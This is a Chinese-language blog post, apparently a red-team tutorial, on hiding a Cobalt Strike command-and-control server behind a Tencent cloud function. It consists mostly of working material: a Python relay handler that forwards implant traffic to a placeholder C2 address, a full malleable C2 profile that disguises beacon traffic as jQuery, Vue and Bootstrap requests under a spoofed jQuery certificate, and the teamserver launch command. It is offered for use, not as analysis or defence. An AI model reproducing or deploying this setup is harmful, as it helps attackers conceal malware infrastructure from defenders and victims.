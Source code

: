 # 利用云函数隐藏C2服务器


隐藏C2服务器的手法有很多，如：
- 域前置
- CDN
- 第三方代理软件（heroku）
- 云函数

## 配置云函数
这里先介绍云函数了，
云函数的创建参考上一篇文章：http://www.xpshuai.cn/2022/06/13/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8FWebshell%E7%9C%9F%E5%AE%9EIP/，

只是代码部分略有不同：
```python
# -*- coding: utf8 -*-
import json,requests,base64
def main_handler(event, context):
    C2='http://<C2服务器地址>' # 这里可以使用 HTTP、HTTPS~下角标~
    path=event['path']
    headers=event['headers']
    print(event)
    if event['httpMethod'] == 'GET' :
        resp=requests.get(C2+path,headers=headers,verify=False) 
    else:
        resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
        print(resp.headers)
        print(resp.content)

    response={
        "isBase64Encoded": True,
        "statusCode": resp.status_code,
        "headers": dict(resp.headers),
        "body": str(base64.b64encode(resp.content))[2:-1]
    }
    return response


```


点击API服务名：
![20220614141805](http://image.xpshuai.cn/20220614141805.png)
点击编辑：
![20220614141944](http://image.xpshuai.cn/20220614141944.png)

路径修改为`/`，点击下一步：
![20220614142034](http://image.xpshuai.cn/20220614142034.png)

配置如下，点击完成：
![20220614142122](http://image.xpshuai.cn/20220614142122.png)



## 配置cs
### 配置CS的profile文件
```bash
set sample_name "kris_abao";

set sleeptime "3000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36";

https-certificate 
{

    set keystore "cobaltStrike.store"; //生成的cs证书名
    set password "123456";    //自己设置的密码

    ## Option 3) Cobalt Strike Self-Signed Certificate
    set C   "US";
    set CN  "jquery.com";
    set O   "jQuery";
    set OU  "Certificate Authority";
    set validity "365";
}

http-get 
{

    set uri "/api/getit";

    client {
        header "Accept" "*/*";
        metadata {
            base64;
            prepend "SESSIONID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Server" "Nodejs";
        output {
            base64;
            print;
        }
    }
}
http-stager 
{  
    set uri_x86 "/vue.min.js";
    set uri_x64 "/bootstrap-2.min.js";
}
http-post {
    set uri "/api/postit";
    client {
        header "Accept" "*/*";
        id {
            base64;
            prepend "JSESSION=";
            header "Cookie";
        }
        output {
            base64;
            print;
        }
    }

    server 
    {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Connection" "keep-alive";
        output {
            base64;
            print;
        }
    }
}


```



### 开启cs teamserver
```bash
./teamserver vpsip password c2.profile
```


**Note:**
上线地址 需要去掉`http://`和`:80`
取`service-miuk9icj-1309081727.bj.apigw.tencentcs.com`
![20220614154332](http://image.xpshuai.cn/20220614154332.png)



### 创建监听
![20220614154545](http://image.xpshuai.cn/20220614154545.png)

成功上线，可以看到外部IP第一栏是不断变化的，也就是隐藏了我们C2服务器
![20220614162832](http://image.xpshuai.cn/20220614162832.png)


附：
删掉测试机器上的恶意exe：
```bash
# 查找进程
tasklist /svc |findstr XXX.exe
# 根据pid杀进程
taskkill /T /F /PID 9718
# 根据进程名杀进程
 taskkill /f /t /im XXX.exe 
```

## 云函数隐藏C2原理
马er -> 腾讯云函数api -> py函数 -> CS服务端

CS马被执行后，流量直接走向腾讯云的api（也就是这一步达成了隐藏C2服务端的目的，腾讯地址，有腾讯的CDN），然后py函数会根据传入的流量作为中间人对CS服务端进行请求，并获取返回结果后返回请求获取的数据信息（py代码的请求内容和CS服务端加载的profile是相对应的，CS服务端根据py函数传入的数据来获取相关信息）


---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8Fc2%E6%9C%8D%E5%8A%A1%E5%99%A8/  


